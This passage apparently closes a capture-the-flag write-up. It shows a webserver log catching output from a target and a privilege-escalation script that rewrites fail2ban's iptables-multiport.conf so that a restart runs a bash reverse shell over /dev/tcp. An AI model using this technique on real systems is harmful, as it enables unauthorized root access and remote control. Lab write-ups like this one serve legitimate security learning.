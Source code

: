 And I hosted a webserver to catch any responses;
```
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
10.10.11.166 - - [27/Jul/2025 17:03:42] code 400, message Bad request syntax ('iptables-multiport.conf')
10.10.11.166 - - [27/Jul/2025 17:03:42] "iptables-multiport.conf" 400 -
```


So I know I can make a script with iptables-multiport.conf and get it to execute whatever I want.
```bash
cat <<EOF > /etc/fail2ban/action.d/iptables-multiport.conf
[Definition]
actionstart = /dev/shm/meow.sh
actionstop =
actionban =
actionunban =

[Init]
EOF
cat <<EOF > /dev/shm/meow.sh && chmod +x /dev/shm/meow.sh
#!/bin/bash
bash -i >& /dev/tcp/$ip/$port 0>&1 
EOF
sudo /etc/init.d/fail2ban restart
```
And that's the box.


